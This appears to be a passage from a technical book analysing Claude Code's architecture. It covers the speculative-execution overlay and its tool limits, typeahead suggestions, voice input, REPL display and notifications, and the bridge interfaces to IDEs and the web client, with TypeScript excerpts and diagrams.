**Overlay filesystem.** Speculative writes never touch the real filesystem. Instead, write operations target an overlay directory at `{claudeTempDir}/speculation/{pid}/{id}`, where `pid` is the current process ID and `id` is a random 8-character UUID prefix (`src/services/PromptSuggestion/speculation.ts:L80-L82`). The overlay implements copy-on-write semantics: before a write tool modifies a file, the original is copied to the overlay (`src/services/PromptSuggestion/speculation.ts:L529-L539`), then the write proceeds against the overlay path. Read tools check whether the file has been previously written to the overlay and redirect reads accordingly (`src/services/PromptSuggestion/speculation.ts:L542-L546`), ensuring the speculative agent sees its own modifications.

Three functions manage the overlay lifecycle:

- **`copyOverlayToMain()`** (`src/services/PromptSuggestion/speculation.ts:L99`): on acceptance, iterates the `writtenPaths` set and copies each overlay file back to the real filesystem using `fs/promises.copyFile`. Returns `false` if any copy fails, logging each failure for debugging.
- **`safeRemoveOverlay()`** (`src/services/PromptSuggestion/speculation.ts:L72`): on rollback or error, removes the overlay directory tree via `fs.rm` with `recursive: true`, `force: true`, `maxRetries: 3`, and `retryDelay: 100ms`. The callback-based `rm` with a no-op handler makes this fire-and-forget cleanup.
- **`mergeFileStateCaches()`** (`src/utils/fileStateCache.ts:L129`): after merging overlay files, reconciles the REPL's file state cache. For each entry in the speculation's extracted cache, it overwrites the main cache entry only if the speculated version has a newer timestamp.

**Safety bounds.** Speculation enforces strict limits to prevent runaway execution:

- `MAX_SPECULATION_TURNS = 20` and `MAX_SPECULATION_MESSAGES = 100` (`src/services/PromptSuggestion/speculation.ts:L58-L59`) cap the agent loop. If either limit is reached, the abort controller fires.
- Only tools in the `SAFE_READ_ONLY_TOOLS` set (`src/services/PromptSuggestion/speculation.ts:L62-L70`) are allowed without restriction: `Read`, `Glob`, `Grep`, `ToolSearch`, `LSP`, `TaskGet`, and `TaskList`.
- Write tools in the `WRITE_TOOLS` set (`src/services/PromptSuggestion/speculation.ts:L61`) -- `Edit`, `Write`, and `NotebookEdit` -- operate on the overlay and are further gated by the current permission mode. If the user's permission mode does not allow auto-accepting edits (e.g., `plan` mode without bypass), speculation stops at the edit boundary rather than proceeding without authorization (`src/services/PromptSuggestion/speculation.ts:L466-L494`).
- Bash commands are validated via `checkReadOnlyConstraints` and `commandHasAnyCd` (`src/services/PromptSuggestion/speculation.ts:L577-L598`). Any command that fails the read-only check or contains `cd` triggers a `bash` boundary and aborts speculation.
- All other tools (WebFetch, WebSearch, mcp tools, etc.) are denied by default (`src/services/PromptSuggestion/speculation.ts:L611-L631`), stopping speculation at a `denied_tool` boundary.

**CompletionBoundary.** When speculation stops, it records why via the `CompletionBoundary` type (`src/state/AppStateStore.ts:L41-L50`), a discriminated union with four variants: `complete` (agent finished naturally, includes `outputTokens`), `bash` (stopped at a non-read-only bash command, includes the `command` string), `edit` (stopped at a file edit requiring permission, includes `toolName` and `filePath`), and `denied_tool` (stopped at an unknown tool, includes `toolName` and `detail`). Each variant carries a `completedAt` timestamp used to compute `timeSavedMs`.

**ActiveSpeculationState.** The `SpeculationState` type (`src/state/AppStateStore.ts:L58-L77`) is either `{ status: 'idle' }` or an `active` object that tracks: the speculation `id`, an `abort` function, the `startTime`, mutable refs for `messagesRef` and `writtenPathsRef` (avoiding per-message array spread), the current `boundary`, `suggestionLength`, `toolUseCount`, and an optional `pipelinedSuggestion` for chaining a follow-up suggestion while the user reviews the current one.

```mermaid
sequenceDiagram
    participant User
    participant REPL
    participant Speculation
    participant OverlayFS
    participant ForkedAgent

    User->>REPL: sees prompt suggestion
    REPL->>Speculation: startSpeculation(suggestion)
    Speculation->>OverlayFS: mkdir overlay/{pid}/{id}
    Speculation->>ForkedAgent: runForkedAgent(suggestion)

    loop tool calls
        ForkedAgent->>Speculation: canUseTool(tool, input)
        alt write tool
            Speculation->>OverlayFS: copy-on-write original
            Speculation-->>ForkedAgent: allow (rewritten path)
        else read-only tool
            Speculation-->>ForkedAgent: allow
        else unsafe tool / bash
            Speculation-->>ForkedAgent: deny (boundary set)
        end
    end

    alt user accepts suggestion
        User->>REPL: submit matching input
        REPL->>Speculation: acceptSpeculation(state)
        Speculation->>OverlayFS: copyOverlayToMain()
        Speculation->>OverlayFS: safeRemoveOverlay()
        Speculation->>REPL: SpeculationResult{messages, boundary, timeSavedMs}
        REPL->>REPL: inject speculated messages
    else user types something different
        User->>REPL: different input
        REPL->>Speculation: abortSpeculation()
        Speculation->>OverlayFS: safeRemoveOverlay()
    end
```

**Telemetry.** Every speculation outcome is logged via `logSpeculation()` (`src/services/PromptSuggestion/speculation.ts:L124`) as a `tengu_speculation` analytics event. The payload includes `speculation_id`, `outcome` (one of `accepted`, `aborted`, or `error`), `duration_ms`, `suggestion_length`, `tools_executed` (count of successful tool results), `completed` (whether a boundary was reached), `boundary_type`, `boundary_tool`, and `boundary_detail`. On acceptance, additional fields capture `message_count`, `time_saved_ms`, and `is_pipelined`. On error, the event includes `error_type`, `error_message` (truncated to 200 characters), and `error_phase` (`start` or `accept`).

### Typeahead suggestion pipeline

The typeahead engine aggregates suggestions from multiple sources based on the current input context. The `useTypeahead` hook examines the input text and cursor position to determine which suggestion sources are relevant. It supports five primary trigger patterns:

1. **Slash commands**: Triggered when the input starts with `/`, matched against the registered command list via `generateCommandSuggestions`. The engine fuzzy-matches the partial command name and returns ranked suggestions with argument hints.

2. **File path completions**: Triggered by `@` followed by a path token, matched against the filesystem via `getPathCompletions`. The `@` prefix distinguishes file references from regular text. Paths with spaces are handled using a quoted syntax (`@"path with spaces"`).

3. **Shell completions**: Triggered in bash mode, providing command names, environment variables, and path completions via `getShellCompletions` and `getShellHistoryCompletion`.

4. **Slack channel suggestions**: Triggered by `#` followed by a channel name pattern, matched against known Slack channels from the Slack MCP server via `getSlackChannelSuggestions`.

5. **Agent suggestions**: When the user is composing a message to a teammate, the engine suggests agent names and descriptions.

```mermaid
flowchart TD
    A[Input text] --> B{Starts with /?}
    B -->|Yes| C[Slash command suggestions]
    B -->|No| D{Starts with @?}
    D -->|Yes| E[File path completions]
    D -->|No| F{In bash mode?}
    F -->|Yes| G[Shell completions]
    F -->|No| H{Starts with #?}
    H -->|Yes| I[Slack channel suggestions]
    H -->|No| J[Agent suggestions]
    C --> K[Unified suggestion list]
    E --> K
    G --> K
    I --> K
    J --> K
    K --> L[Render in footer]
    K --> M[Inline ghost text]
```

For slash commands, the engine calls `generateCommandSuggestions` which fuzzy-matches against the registered command list. For file paths triggered by `@`, it calls `getPathCompletions` which scans the filesystem. In bash mode, it calls `getShellCompletions` which provides command, variable, and path completions. All sources are merged by `generateUnifiedSuggestions` into a single ranked list.

The `applyCommandSuggestion` function handles the insertion of the selected suggestion into the input buffer, replacing the partial token with the full completion. The `commandArgumentHint` field shows the expected arguments for the selected slash command, generated by `generateProgressiveArgumentHint`.

The `findMidInputSlashCommand` function detects slash commands that appear in the middle of input text (not only at the start), enabling suggestions even when the user types additional text after the command name. The `getBestCommandMatch` function ranks command matches by edit distance and prefix length, ensuring the most relevant suggestion appears first.

The file suggestion system uses a background cache refresh mechanism via `startBackgroundCacheRefresh` and an `onIndexBuildComplete` callback. This ensures that file path suggestions are available immediately when the user types `@`, without waiting for a filesystem scan. The cache is invalidated on file system changes and refreshed in the background.

The `applyFileSuggestion` function handles the insertion of file path suggestions, using the `findLongestCommonPrefix` function to enable incremental completion. When the user presses Tab on a partial path that matches multiple files, the common prefix is inserted, reducing the remaining ambiguity.

### Voice input lifecycle

The voice input follows a hold-to-talk protocol. When the voice feature is enabled (gated by the `VOICE_MODE` feature flag), the `useVoiceIntegration` hook integrates with the prompt input system. The hook provides a `handleKeyEvent` function that is called from a keybinding handler, and a `stripTrailing` function that removes trailing whitespace from the transcribed text before insertion:

```typescript
// src/screens/REPL.tsx:L98-L103
const useVoiceIntegration = feature('VOICE_MODE')
  ? require('../hooks/useVoiceIntegration.js').useVoiceIntegration
  : () => ({
      stripTrailing: () => 0,
      handleKeyEvent: () => {},
      resetAnchor: () => {}
    })
```

The conditional require with feature flag ensures that the voice module and its native audio-capture dependency are not loaded in builds that do not support voice input, eliminating the bundle size overhead.

```mermaid
stateDiagram-v2
    [*] --> Idle: initial state
    Idle --> Recording: key pressed
    Recording --> Recording: auto-repeat key
    Recording --> Processing: key released / timeout
    Processing --> Idle: transcript received
    Processing --> Idle: error / cancel
    Recording --> Idle: escape pressed
```

When the user presses the voice key, `handleKeyEvent` is called. The hook starts audio recording and connects to the `voice_stream` WebSocket endpoint. Auto-repeat key events (from holding the key) reset an internal release timer (`RELEASE_TIMEOUT_MS = 200ms`). When no key event arrives within the timeout, recording stops and the audio buffer is sent for transcription. The `FIRST_PRESS_FALLBACK_MS = 2000ms` handles the initial press-to-repeat delay on macOS.

The `focusMode` optimization keeps the WebSocket connection alive between utterances. When the terminal loses focus (user switches to another app), the connection is torn down after `FOCUS_SILENCE_TIMEOUT_MS = 5000ms` of silence, freeing the WebSocket resource.

The `computeLevel` function extracts an RMS audio level from 16-bit PCM buffers for the recording waveform visualizer:

```typescript
// src/hooks/useVoice.ts:L185-L197
export function computeLevel(chunk: Buffer): number {
  const samples = chunk.length >> 1 // 16-bit = 2 bytes per sample
  if (samples === 0) return 0
  let sumSq = 0
  for (let i = 0; i < chunk.length - 1; i += 2) {
    // Read 16-bit signed little-endian
    const sample = ((chunk[i]! | (chunk[i + 1]! << 8)) << 16) >> 16
    sumSq += sample * sample
  }
  const rms = Math.sqrt(sumSq / samples)
  const normalized = Math.min(rms / 2000, 1)
  return Math.sqrt(normalized)
}
```

The `Math.sqrt(normalized)` applies a perceptual curve that spreads quieter levels across more of the visual range, making the 16-bar waveform visualizer responsive even at low volumes.

The voice module is lazy-loaded to avoid triggering the macOS TCC microphone permission prompt at startup:

```typescript
// src/hooks/useVoice.ts:L140-L141
type VoiceModule = typeof import('../services/voice.js')
let voiceModule: VoiceModule | null = null
```

The `voiceModule` variable starts as `null` and is loaded on first use. This is critical because loading the native audio module (`audio-capture-napi`) on macOS triggers a system permission dialog. By deferring the import until the user actually activates voice input, cc avoids surprising the user with a permission prompt during startup.

### REPL message display and virtual scrolling

The REPL uses a virtual scrolling system for the message list. When a session has hundreds of messages, rendering all of them as React components would be prohibitively expensive. Instead, the `Messages` component in `src/components/Messages.tsx` renders only the visible messages plus a buffer above and below the viewport. The `ScrollBox` component manages the scroll position and reports resize events.

The virtual scroll system is integrated with the type-into-empty behavior: when the model is streaming output and the user is scrolled to the bottom, new messages automatically scroll into view. But if the user has scrolled up to read earlier output, the view stays pinned to the current position. The `RECENT_SCROLL_REPIN_WINDOW_MS = 3000` constant prevents the repin from snapping to the bottom if the user has recently scrolled up:

```typescript
// src/screens/REPL.tsx:L303-L305
// Window after a user-initiated scroll during which type-into-empty does NOT
// repin to bottom. Josh Rosen's workflow: Claude emits long output → scroll
// up to read the start → start typing → before this fix, snapped to bottom.
const RECENT_SCROLL_REPIN_WINDOW_MS = 3000
```

This is a concrete example of HER's human-in-the-loop principle: the harness must respect the user's intentional scroll position and not override it with automated behavior, even when the automated behavior seems helpful.

### REPL session lifecycle

The REPL manages the full session lifecycle: startup, message processing, compaction, and shutdown. On startup, it calls `processSessionStartHooks` to execute user-defined hooks at session initialization. During the session, it manages the query loop through the `query` function in `src/query.ts`, processes tool permission requests through the `useCanUseTool` hook, and tracks cost through the `cost-tracker.ts` module.

On shutdown, the REPL calls `executeSessionEndHooks` with a timeout (`getSessionEndHookTimeoutMs`) to ensure hooks complete within a reasonable time. The `gracefulShutdownSync` function handles SIGTERM/SIGINT signals, saving session costs and archiving the session before exiting.

### Bridge and inbox communication

The REPL integrates with the bridge system (`src/bridge/replBridge.ts` and `src/bridge/bridgeMain.ts`) to communicate with external IDE extensions such as VS Code and JetBrains. The bridge operates over a local IPC channel and supports two primary communication patterns: outbound notifications (cc pushes status updates, tool results, and cost data to the IDE) and inbound attachments (the IDE sends selection context, file references, and approval decisions back to cc).

The bridge's inbound attachment system is the mechanism by which IDE extensions inject context into the REPL. When the user selects code in VS Code and triggers a "Send to Claude" action, the selected text is packaged as an `IDESelection` object and delivered to the REPL via the bridge. The REPL then inserts this selection into the prompt input, treating it as a user-provided context attachment. This pathway is gated by the `ideSelection` prop on the REPL component, which is set during bridge initialization.

The bridge also supports a "trusted device" model where the IDE can auto-approve certain tool calls that would normally require explicit user confirmation. This is controlled by the `trusted` flag in the bridge configuration and is a configuration surface (HER Section 7) that shapes the permission behavior without modifying the underlying permission rules.

### MCP integration in the REPL

The REPL directly manages the lifecycle of MCP server connections through the `mcpClients` prop and the `MCPConnectionManager`. On mount, the REPL initializes the configured MCP servers and monitors their connection state. The `useMcpConnectivityStatus` hook (listed in the notification hooks above) watches for disconnections and displays an error notification when a configured server becomes unreachable.

MCP tools are surfaced in the typeahead system through the `ToolSearch` mechanism (see Chapter 15). When the user types a slash command that triggers tool search, the engine queries available MCP tools and returns them as suggestions. This is a concrete example of HER Pattern 9 (Progressive Tool Expansion): MCP tools are not loaded eagerly but are surfaced on demand when the user's input context matches.

The REPL also handles MCP resource browsing through the `ListMcpResourcesTool` and `ReadMcpResourceTool`. When the user navigates to an MCP resource URI (e.g., `mcp://server/resource`), the REPL resolves it through the connected MCP client and displays the content. The `strictMcpConfig` flag controls whether MCP configuration errors are fatal (strict mode) or merely logged (permissive mode), giving enterprise administrators control over how MCP misconfigurations affect the REPL startup.

### Keybinding context system

cc uses a context-aware keybinding system that routes keyboard input to the correct handler. The `useKeybinding` hook registers a handler with a context string (e.g., `'Global'`, `'Transcript'`, `'Prompt'`). When a key event arrives, the system checks handlers in order from most specific context to least specific. A handler registered in `'Transcript'` context takes priority over one in `'Global'` context when the transcript screen is active. This context system is a configuration surface (HER Section 7): keybinding contexts determine which handlers are active, effectively configuring the keyboard interaction layer based on the UI state.

The `GlobalKeybindingHandlers` component demonstrates the pattern: it registers `ctrl+o` in `'Global'` context, but the transcript screen registers its own `ctrl+o` handler in `'Transcript'` context that toggles back to the prompt view. The context system ensures the right handler fires without the components needing to know about each other.

## Edge cases and failure modes

### Auto-repeat key handling in voice mode

Terminal auto-repeat fires key events every 30-80ms while a key is held. The `useVoice` hook uses these auto-repeat events to detect that the key is still held. But on macOS, the initial repeat delay can be up to 2 seconds (with the slider at "Long"). The `FIRST_PRESS_FALLBACK_MS = 2000ms` constant ensures that the release timer is armed even if no auto-repeat event arrives. Without this fallback, a quick tap-and-release that finishes before auto-repeat starts would never stop recording.

### Typeahead suggestion staleness

Suggestions are computed on every input change, but file system scans (`getPathCompletions`) and shell completion requests (`getShellCompletions`) are asynchronous. If the user types quickly, a suggestion from a previous input may arrive after the input has changed. The `getPreservedSelection` function in `useTypeahead.tsx` handles this by preserving the user's selection index when the suggestion list is refreshed:

```typescript
// src/hooks/useTypeahead.tsx:L52-L74
function getPreservedSelection(
  prevSuggestions: SuggestionItem[],
  prevSelection: number,
  newSuggestions: SuggestionItem[],
): number {
  if (newSuggestions.length === 0) return -1
  if (prevSelection < 0) return 0
  const prevSelectedItem = prevSuggestions[prevSelection]
  if (!prevSelectedItem) return 0
  const newIndex = newSuggestions.findIndex(item => item.id === prevSelectedItem.id)
  return newIndex >= 0 ? newIndex : 0
}
```

### Image paste handling

`PromptInput` intercepts bracket-paste mode sequences to detect pasted images. When an image is detected in the clipboard, it is saved to a temporary file and a reference is stored in `pastedContents`. The image is then included as a `ContentBlockParam` in the next user message. The `PASTE_THRESHOLD` constant distinguishes between text paste and image paste based on the data size.

### Vim mode interactions

The `vimMode` state in `PromptInput` enables modal editing (normal, insert, visual modes) via the `VimTextInput` component. In normal mode, keystrokes are interpreted as Vim commands (h/j/k/l for movement, i for insert, etc.) rather than text input. The `useKeybinding` system must be aware of Vim mode to avoid routing Vim navigation keys as global shortcuts. This is handled by the `useOptionalKeybindingContext` hook, which returns a different context when Vim normal mode is active.

### REPL notification system

The REPL component mounts over a dozen notification hooks that monitor system health and prompt the user with actionable alerts. Each hook follows the same pattern: it observes some aspect of the system state (MCP connectivity, IDE status, rate limits, plugin updates, model deprecation) and calls `addNotification` when a condition warrants user attention. The notification system is deliberately decoupled from the REPL's main render path -- notifications render in a separate overlay that does not trigger a full REPL re-render:

```typescript
// src/screens/REPL.tsx:L745-L768
useModelMigrationNotifications()
useCanSwitchToExistingSubscription()
useIDEStatusIndicator({ ideSelection, mcpClients, ideInstallationStatus })
useMcpConnectivityStatus({ mcpClients })
useAutoModeUnavailableNotification()
usePluginInstallationStatus()
usePluginAutoupdateNotification()
useSettingsErrors()
useRateLimitWarningNotification(mainLoopModel)
useFastModeNotification()
useDeprecationWarningNotification(mainLoopModel)
useNpmDeprecationNotification()
useAntOrgWarningNotification()
useInstallMessages()
useChromeExtensionNotification()
useOfficialMarketplaceNotification()
useLspInitializationNotification()
useTeammateLifecycleNotification()
```

The `useRateLimitWarningNotification` hook monitors the API rate limit headers and displays a warning when the remaining quota drops below a threshold. The `useDeprecationWarningNotification` hook checks whether the current model version is deprecated and prompts the user to switch. The `useMcpConnectivityStatus` hook monitors MCP server connections and displays an error when a configured server is unreachable.

### REPL cost tracking and token accounting

The REPL tracks the cost of each API call through the `cost-tracker.ts` module, which accumulates input token counts, output token counts, and cache read/write token counts across all turns. The cost tracker is initialized on REPL mount and updated after each model response. The `useAppState` hook exposes the cost data to the UI for display in the status bar.

The cost tracking integrates with the session archive system: when a session is archived, the total cost is written to the session metadata. This allows the claude.ai web UI to display per-session cost breakdowns. The `gracefulShutdownSync` function ensures that the final cost is written before the process exits, even on SIGTERM/SIGINT.

### Command queue and startup hooks

The REPL processes a command queue on mount, enabling CLI arguments and IDE extensions to inject initial commands (such as `/remote-control` or `/compact`) before the first user interaction. The `useCommandQueue` hook returns the queued commands and clears them after processing:

```typescript
// src/screens/REPL.tsx:L625
const queuedCommands = useCommandQueue()
```

The `processSessionStartHooks` function executes user-defined hooks at session initialization. These hooks run before the first API call, allowing users to set up MCP connections, configure permissions, or inject system prompt modifications. The hooks are executed with a timeout to prevent a misconfigured hook from blocking the REPL startup. The `executeSessionEndHooks` function runs at shutdown with a separate timeout (`getSessionEndHookTimeoutMs`), ensuring that cleanup operations complete within a reasonable time.

### Terminal title animation

The `AnimatedTerminalTitle` component sets the terminal tab title with an animated prefix glyph while a query is running. This component is isolated from the REPL so that the 960ms animation tick re-renders only this leaf component (which returns `null` -- it is a pure side-effect) instead of the entire REPL tree. Before extraction, the animation tick caused approximately one full REPL re-render per second for the duration of every turn, dragging `PromptInput` and its children along:

```typescript
// src/screens/REPL.tsx:L473-L476
const TITLE_ANIMATION_FRAMES = ['⠂', '⠐']
const TITLE_STATIC_PREFIX = '✳'
const TITLE_ANIMATION_INTERVAL_MS = 960
```

The animation uses a braille dot pattern that cycles at 960ms intervals, which is slow enough to avoid excessive re-renders but fast enough to be visually perceptible. The `useTerminalFocus` hook ensures the animation only runs when the terminal window is focused, reducing unnecessary renders when the user is looking at another application.

### Search index warm-up and cost gating

The REPL's search functionality uses a pre-built text index for fast string matching across the full conversation. The index is built asynchronously on first entry into transcript mode, and the `warmSearchIndex` method measures the build time. If the build takes less than 20ms, the index status is suppressed (imperceptible latency does not need a progress indicator). If it takes longer, the elapsed time is displayed for 2 seconds so the user understands the initial delay:

```typescript
// src/screens/REPL.tsx:L410-L437
const [indexStatus, setIndexStatus] = React.useState<'building' | { ms: number } | null>('building')
React.useEffect(() => {
  let alive = true
  const warm = jumpRef.current?.warmSearchIndex
  if (!warm) {
    setIndexStatus(null)
    return
  }
  setIndexStatus('building')
  warm().then(ms => {
    if (!alive) return
    if (ms < 20) {
      setIndexStatus(null)
    } else {
      setIndexStatus({ ms })
      setTimeout(() => alive && setIndexStatus(null), 2000)
    }
  })
  return () => { alive = false }
}, [])
```

The search query effect is gated on warm completion. `setHighlight` (the screen-space overlay) stays instant because it does not require indexing. `setSearchQuery` (the full scan) waits for the warm promise to resolve, preventing a scenario where the user types a search query, the scan fills the cache, and then the warm reports approximately 0ms while the user already felt the real lag.

### File suggestion index pre-warming

The typeahead engine pre-warms the file index on mount so the first `@`-mention does not block on a filesystem scan. The `startBackgroundCacheRefresh` function runs the index build in the background with approximately 4ms event-loop yields, so it does not delay the first render. If the user types `@` before the build finishes, partial results from the ready chunks are shown; when the build completes, the last search is re-fired so the partial results upgrade to full results:

```typescript
// src/hooks/useTypeahead.tsx:L494-L505
useEffect(() => {
  if ("production" !== 'test') {
    startBackgroundCacheRefresh()
  }
  return onIndexBuildComplete(() => {
    const token = latestSearchTokenRef.current
    if (token !== null) {
      latestSearchTokenRef.current = null
      void fetchFileSuggestions(token, token === '')
    }
  })
}, [fetchFileSuggestions])
```

The index build is skipped in test environments because REPL-mounting tests would spawn `git ls-files` against the real CI workspace (270k+ files on Windows runners), and the background build's `setImmediate` chain would leak into subsequent tests in the shard.

### Typeahead debouncing and stale result filtering

The typeahead engine uses multiple debounce and stale-result-filtering strategies to handle the asynchrony of suggestion sources. File suggestions are debounced at 50ms, which sits slightly above the macOS default key-repeat interval (approximately 33ms) so that held-delete/backspace coalesces into one search instead of stuttering on each repeated key. The search itself takes approximately 8-15ms on a 270k-file index.

Slack channel suggestions are debounced at 150ms because the first keystroke after `#` requires an MCP round-trip; subsequent keystrokes that share the same first-word segment hit the cache synchronously. Shell completions use an `AbortController` to cancel in-flight requests when the input changes:

```typescript
// src/hooks/useTypeahead.tsx:L206-L224
let currentShellCompletionAbortController: AbortController | null = null
async function generateBashSuggestions(input: string, cursorOffset: number): Promise<SuggestionItem[]> {
  try {
    if (currentShellCompletionAbortController) {
      currentShellCompletionAbortController.abort()
    }
    currentShellCompletionAbortController = new AbortController()
    const suggestions = await getShellCompletions(input, cursorOffset,
      currentShellCompletionAbortController.signal)
    return suggestions
  } catch {
    logEvent('tengu_shell_completion_failed', {})
    return []
  }
}
```

Each async operation tracks the latest request token via a ref (`latestSearchTokenRef`, `latestPathTokenRef`, `latestBashInputRef`, `latestSlackTokenRef`). When a result arrives, it is checked against the current token; if the token has changed (meaning the user typed more characters), the stale result is discarded. This pattern prevents stale suggestions from overwriting fresher ones that were computed from a more recent input state.

### ExtractCompletionToken: @-mention and path tokenization

The `extractCompletionToken` function parses the input text around the cursor to extract the completable token. It handles several cases:

1. **Quoted @-mentions**: The regex `/@"([^"]*)"?$/` matches `@"path with spaces"` patterns where spaces are legal inside quotes.

2. **Unquoted @-tokens**: The `lastIndexOf('@')` fast path avoids an expensive `$`-anchored regex scan by finding the last `@` before the cursor and checking if it is preceded by whitespace (or is at the start of the input).

3. **Non-@ tokens**: Falls back to a `$`-anchored regex that matches the token under the cursor, extending it forward past the cursor position to include characters after the caret.

The function also handles the special case where the cursor is in the middle of a token (more word characters after the cursor position). In this case, the token is extended to include all characters until whitespace or the end of the string, so that completing the token replaces the entire word rather than only the prefix before the cursor.

### REPL Props: the surface area of configuration

The `REPL` component's `Props` type reveals the full surface area of configuration that external callers can inject. With over 30 fields, it is one of the most heavily parameterized components in the codebase. Key configuration categories include:

- **Session identity**: `initialMessages`, `pendingHookMessages`, `initialContentReplacements`, `initialAgentName`, `initialAgentColor` -- these seed the conversation state for session resume.
- **MCP integration**: `mcpClients`, `dynamicMcpConfig`, `strictMcpConfig` -- these control which MCP servers are connected and how configuration errors are handled.
- **Remote execution**: `remoteSessionConfig`, `directConnectConfig`, `sshSession` -- these enable the REPL to operate in remote mode where tools execute on a different machine.
- **Lifecycle hooks**: `onBeforeQuery` (return false to prevent execution), `onTurnComplete` (called after each model response) -- these allow callers to intercept the query loop without modifying the REPL source.
- **Feature gates**: `disableSlashCommands`, `disabled` (hides prompt entirely), `taskListId` (enables autonomous task processing mode) -- these control which REPL features are active.

The `pendingHookMessages` promise is particularly noteworthy: it allows the REPL to render immediately with an empty conversation and inject hook messages when they resolve, ensuring that the UI is responsive during the async hook evaluation phase. The `onBeforeQuery` callback is awaited before each API call, giving the caller an opportunity to block execution (e.g., when a required MCP server is still connecting).

## Where cc diverges from the published pattern

### Typeahead as progressive disclosure

HER Pattern 9 (Progressive Tool Expansion) recommends exposing capabilities progressively rather than all at once. cc's typeahead system extends this principle to the prompt interface: slash commands, file paths, and shell completions are surfaced only when the user's input context matches. This is a more aggressive form of progressive disclosure than what HER describes, which focuses on tool expansion rather than input assistance. The inline ghost text feature goes even further, suggesting the most likely completion directly in the input buffer without requiring the user to open a suggestion menu.

### Voice as a configuration surface

HER Section 7 identifies six configuration surfaces for a harness. Voice input is not listed among them, but cc's implementation demonstrates that voice is effectively a configuration surface: the language preference (from `settings.language`) controls which STT model is used, and the `focusMode` flag controls connection lifecycle behavior. This suggests that HER's configuration surface taxonomy should be expanded to include input modality preferences.

### Keybinding contexts vs. HER's tiered escalation

HER Section 11.2 describes a tiered escalation model for human-in-the-loop interactions. cc's keybinding context system implements a related but distinct concept: instead of escalating from automated to human, it routes keyboard input based on which UI element has focus. This is closer to a focus management pattern than an escalation pattern. The overlap is that both systems must handle the case where multiple handlers are eligible for the same input -- cc resolves this with context priority, while HER resolves it with tier precedence.

## Developer takeaways for building a long-running agent

1. **Use a keybinding context system.** Global keyboard shortcuts conflict with text input. Implement a context-aware routing system where handlers declare their activation context, and the most specific context wins. This prevents a `ctrl+c` handler from interfering with text selection in the prompt.

2. **Aggregate suggestions from multiple sources.** A unified suggestion engine that merges slash commands, file paths, shell completions, and agent names into a single ranked list provides a better UX than separate suggestion mechanisms. Use `suggestionType` to track which source a suggestion came from, and preserve the user's selection index when the list refreshes.

3. **Handle auto-repeat in hold-to-talk protocols.** Terminal auto-repeat fires key events at 30-80ms intervals. Use these events to detect that a key is still held, and arm a release timer with a fallback for the initial press-to-repeat delay (up to 2 seconds on macOS).

4. **Lazy-load native audio modules.** The voice module's native dependency (`audio-capture-napi`) can trigger OS permission prompts on import. Defer loading until the user actually activates voice input to avoid surprising microphone permission dialogs at startup.

5. **Support language normalization for STT.** Users may configure their language preference as a native name (e.g., "日本語") rather than a BCP-47 code. Map both English and native names to server-supported codes, and fall back to a default language when the preference is unsupported.

6. **Debounce input-driven suggestion computation.** Suggestion sources (file system scans, shell completions) are asynchronous and may return stale results if the user types quickly. Debounce the computation and preserve selection state across refreshes.

7. **Separate prompt mode from prompt content.** The `PromptInputMode` (`prompt`, `bash`, `vim`, `agent`) controls how the input is interpreted, not what it contains. This separation makes it straightforward to add new modes (e.g., a SQL mode) without modifying the suggestion engine or the submission pipeline.
# Bridges: VS Code, JetBrains, and Web

## Overview

Claude Code operates primarily as a terminal application, but its integration with IDEs and web clients is essential for adoption. The bridge subsystem connects cc's in-process agent loop to external orchestrators: the VS Code and JetBrains extensions via IDE bridges, the claude.ai web client via the REPL bridge, and the Agent SDK via a daemon interface. These bridges are not simple message forwarders; they implement bidirectional message translation, session lifecycle management, OAuth token refresh, permission proxying, and work-secret authentication. The result is a system where the terminal cc process can be driven by an IDE, a web UI, or a programmatic SDK, all sharing the same core agent loop.

This chapter examines `src/bridge/replBridge.ts` (~2,400 LOC) and `src/bridge/bridgeMain.ts` (~3,000 LOC). The REPL bridge manages the connection between a terminal cc session and the claude.ai web client, enabling the web UI to display messages, inject user input, and receive streaming model output. The bridge main module orchestrates session spawning, work polling, capacity management, and graceful shutdown. Together, they implement HER's three-tier multi-agent architecture at the local-orchestrator level: the bridge spawns and manages cc sessions as child processes, monitors their health, and coordinates work distribution.

## Data structures and contracts

### ReplBridgeHandle: the session interface

The `ReplBridgeHandle` type defines the operations that the REPL bridge exposes to the rest of cc:

```typescript
// src/bridge/replBridge.ts:L70-L81
export type ReplBridgeHandle = {
  bridgeSessionId: string
  environmentId: string
  sessionIngressUrl: string
  writeMessages(messages: Message[]): void
  writeSdkMessages(messages: SDKMessage[]): void
  sendControlRequest(request: SDKControlRequest): void
  sendControlResponse(response: SDKControlResponse): void
  sendControlCancelRequest(requestId: string): void
  sendResult(): void
  teardown(): Promise<void>
}
```

The handle carries the `bridgeSessionId` (the server-side session identifier), `environmentId` (the workspace identifier), and `sessionIngressUrl` (the ingress endpoint for message delivery). The `writeMessages` method sends internal `Message[]` objects (cc's native format), while `writeSdkMessages` sends the public `SDKMessage[]` format (the API-facing format that strips internal metadata). The `sendControlRequest` and `sendControlResponse` methods handle the permission proxying flow, allowing the web UI to approve or deny tool permission requests.

### BridgeState: connection lifecycle

The bridge connection goes through a defined set of states:

```typescript
// src/bridge/replBridge.ts:L83
export type BridgeState = 'ready' | 'connected' | 'reconnecting' | 'failed'
```

- `'ready'`: Initial state, no connection established.
- `'connected'`: Active connection with the web client, messages flowing.
- `'reconnecting'`: Connection lost, attempting to re-establish.
- `'failed'`: Connection failed permanently, no further attempts.

State transitions are reported to the REPL via `onStateChange`, which updates the UI to show connection status indicators.

### BridgeCoreParams: dependency injection for the bridge

The `BridgeCoreParams` type encapsulates all the dependencies that the bridge core needs, injected rather than imported to avoid circular dependencies:

```typescript
// src/bridge/replBridge.ts:L91-L173
export type BridgeCoreParams = {
  dir: string
  machineName: string
  branch: string
  gitRepoUrl: string | null
  title: string
  baseUrl: string
  sessionIngressUrl: string
  workerType: string
  getAccessToken: () => string | undefined
  createSession: (opts: {
    environmentId: string
    title: string
    gitRepoUrl: string | null
    branch: string
    signal: AbortSignal
  }) => Promise<string | null>
  archiveSession: (sessionId: string) => Promise<void>
  getCurrentTitle?: () => string
  toSDKMessages?: (messages: Message[]) => SDKMessage[]
  onAuth401?: (staleAccessToken: string) => Promise<boolean>
  getPollIntervalConfig?: () => PollIntervalConfig
  initialHistoryCap?: number
  initialMessages?: Message[]
  previouslyFlushedUUIDs?: Set<string>
  onInboundMessage?: (msg: SDKMessage) => void
  onPermissionResponse?: (response: SDKControlResponse) => void
  onInterrupt?: () => void
  onSetModel?: (model: string | undefined) => void
  onSetMaxThinkingTokens?: (maxTokens: number | null) => void
